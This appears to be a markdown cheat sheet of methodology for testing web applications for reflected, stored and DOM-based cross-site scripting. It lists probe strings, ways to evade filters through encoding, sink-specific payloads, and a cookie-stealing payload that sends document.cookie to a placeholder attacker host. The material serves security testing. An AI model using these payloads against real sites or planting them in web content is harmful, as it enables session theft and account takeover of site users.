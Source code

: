 # Cross Site Scripting (XSS)

**Attack Vectors**

Initially test if the page breaks using:
1. **Break out of JS function:** ``` ' " ` ```
2. **HTML injection:** `<img src=x>`
3. **Break out of HTML tag attribute:** ``` '> "> `> ```

Then proceed with complex payloads.

Challenges:
1. <script> might be filtered
- Try using encoding %3cscript%3e
- Try double or triple encoding also.

## Testing for Reflected XSS 
  
- a.k.a First Order Xss

Requirements:
1. Attacker's code executes within a single HTTP response.
2. Often goes within request URIs or params.
3. Executes only after the user clicks the link.

Input vectors to test - all user controlled variables:
1. HTTP parameters.
2. POST parameters.
3. POST data.
4. Hidden fields.
5. Predefined radio or selection values.
  
## Testing for Stored XSS 
  
- a.k.a Second Order XSS
  
Requirements:
1. The data is stored within the application.
2. Affects any user that visits the page - does not require user interaction like reflected.
 
Input vectors to test:
1. User/Profile details
2. Shopping cart items
3. File upload
4. Forum posts
5. Blog comments
6. User logs

IMPORTANT: All data must be tested by inserting in user areas and viewing in admin areas -> for IMPACT.

IMPORTANT TIP:
- This is only for reflected or stored XSS. 
- Send a unique identifiable string within < and > such as `<nybble>`.
- Now search the page source for `nybble`.
- Check if the < and > symbols are encoded as `&lt` and `&gt`. If not, XSS is possible

## Testing for DOM XSS

This vulnerability is hard to detect. Hence, it is quite common in production environments.
- The view-src technique will not work
- To view DOM we must use the developer console
  
> XSS Rat tip: use `<img src=x onerror=alert('xss')>`

> Stealing cookie: `<img src=x onerror=this.src='http://ATTACKER_IP:ATTACKER_PORT/?'+document.cookie;>`

**Methodology**:

- Look for JS in the source that can be controlled, i.e. not imported scripts.
- Now look in the developer console how changes to the inputs (sources) affect elements in the DOM (sinks).
- Look for specific sources and sinks from the [DOM XSS Wiki](https://github.com/wisec/domxsswiki).
- Craft the payload accordingly

### Sink is document.write
- `document.write` writes to the DOM
-Try closing the element that is being written and create a new element with the payload.

### Sink is innerHTML
- `innerHTML` writes HTML to a div or class element
- Try the img src onerror payload.

### Sink is JQuery href attribute
- If href attribute is a sink try `javascript:alert('xss')`

### Sink is JQuery selector
  - In old version of jQuery, if a HTML element is passed to the jQuery selector `$(<h1>createme</h1>)`, and if that element doesn't exsits, JQuery will create that element.
- Try the img src onerror payload.
- Try the img src onerror payload within an iframe with onload event.
  
**Resources**
1. [Code Vera Portswigger XSS Walkthroughs](https://www.youtube.com/playlist?list=PLmtowW4zdQsIk8d4tAemj-0n0LmBeX6TF)
2. [Intigrity How to look for DOM XSS](https://www.youtube.com/watch?v=ojiOCfg-FXU)
3. [DOM XSS Wiki](https://github.com/wisec/domxsswiki)
4. [XSS Rat](https://www.youtube.com/@TheXSSrat)
